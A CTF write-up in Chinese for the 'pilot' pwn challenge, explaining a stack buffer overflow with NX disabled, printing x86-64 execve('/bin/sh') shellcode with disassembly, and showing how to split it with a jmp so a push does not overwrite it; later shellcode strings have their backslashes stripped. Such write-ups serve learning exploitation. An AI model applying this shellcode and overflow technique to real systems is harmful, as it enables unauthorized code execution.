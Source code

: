 # shiyanba--pwn--pilot

```
	Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

堆栈溢出的题目，主要是学习shellcode的使用

  题目会返回buf的地址

  我们往buf添加shellcode，然后溢出覆盖返回地址为buf的地址，最后就会执行shellcode

```
  -0000000000000020 buf             db ?
  -000000000000001F                 db ? ; undefined
  ...............
  -0000000000000002                 db ? ; undefined
  -0000000000000001                 db ? ; undefined
  +0000000000000000  s              db 8 dup(?)
  +0000000000000008  r              db 8 dup(?)

```

shellcode的制作

1.自带的shellcode生成器

32位:shellcraft.i386.linux.sh()

64位:shellcraft.amd64.linux.sh()

2.通过著名的shell-storm.org的shellcode数据库shell-storm.org/shellcode/

```
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
#xor rdx, rdx
#mov rbx, 0x68732f6e69622f2f
#shr rbx, 0x8
#push rbx
#mov rdi, rsp
#push rax
#push rdi
#mov rsi, rsp
#mov al, 0x3b
#syscall

```

但执行时发生错误

原因是  在push rdi  时 把我们的shellcode给覆盖了

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/shiyanba-pilot/1.png)

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/shiyanba-pilot/2.png)

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/shiyanba-pilot/3.png)

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/shiyanba-pilot/4.png)

我们可以找短一点的shellcode，但比较难找

于是我们进行改造shellcode

因为可以打破汇编代码执行的连续性的指令就那么几种，call，ret和跳转。前两条指令都会影响到寄存器和栈的状态，因此我们只能选择使用跳转中的无条件跳转jmp。

栈溢出最多可以向栈中写0x40=64个字节。结合对这个题目的分析可知在返回地址之后还有16个字节的空间可写。根据这四张图显示出来的结果，push rdi执行后下一条指令就会被修改，因此我们可以考虑把shellcode在push rax和push rdi之间分拆成两段，此时push rdi之后的shellcode片段为8个字节，小于16字节，可以容纳。



简单来说，就是把shellcode分为两段，第一段就变小了，push rdi时就不会覆盖到我们的shellcode，跳转指令会跳到第二段shellcode继续执行。

```
#shellcode = "x48x31xd2x48xbbx2fx2fx62x69x6ex2fx73x68x48xc1xebx08x53x48x89xe7x50x57x48x89xe6xb0x3bx0fx05"
#原始的shellcode。由于shellcode位于栈上，运行到push rdi时栈顶正好到了x89xe6xb0x3bx0fx05处，rdi的值会覆盖掉这部分shellcode，从而导致执行失败，所以需要对其进行拆分
#xor rdx, rdx
#mov rbx, 0x68732f6e69622f2f
#shr rbx, 0x8
#push rbx
#mov rdi, rsp
#push rax
#push rdi
#mov rsi, rsp
#mov al, 0x3b
#syscall

shellcode1 = "x48x31xd2x48xbbx2fx2fx62x69x6ex2fx73x68x48xc1xebx08x53x48x89xe7x50"
#第一部分shellcode，长度较短，避免尾部被push rdi污染
#xor rdx, rdx
#mov rbx, 0x68732f6e69622f2f
#shr rbx, 0x8
#push rbx
#mov rdi, rsp
#push rax

shellcode1 += "xebx18"
#使用一个跳转跳过被push rid污染的数据，接上第二部分shellcode继续执行
#jmp short $+18h

shellcode2 = "x57x48x89xe6xb0x3bx0fx05"
#第二部分shellcode
#push rdi
#mov rsi, rsp
#mov al, 0x3b
#syscall

```


